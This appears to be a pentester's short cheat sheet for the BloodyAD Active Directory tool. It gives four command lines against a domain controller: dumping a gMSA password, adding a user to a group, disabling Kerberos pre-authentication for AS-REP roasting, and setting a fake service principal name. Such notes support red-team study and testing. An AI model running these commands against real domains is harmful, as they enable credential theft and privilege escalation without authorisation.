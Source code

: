 # BloodyAD

## Link: https://github.com/CravateRouge/bloodyAD

### Usage:

#### 1)

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k get object 'GMSA01$' --attr msDS-ManagedPassword

(Dump GMSA Password)

#### 2) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add groupMember "TARGET_GROUP" "USER_TO_ADD"

(Add a user to a group)

#### 3) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k add uac TARGET_USER -f DONT_REQ_PREAUTH

(Disable pre-authentication on a user to do ASREPRoasting attack)

#### 4) 

    bloodyAD --host dc01.DOMAIN.COM -d "DOMAIN.COM" --dc-ip DC_IP -k set object "SVC_ACCOUNT" servicePrincipalName  -v "cifs/fake" 

(Set a fake SPN for a service account)
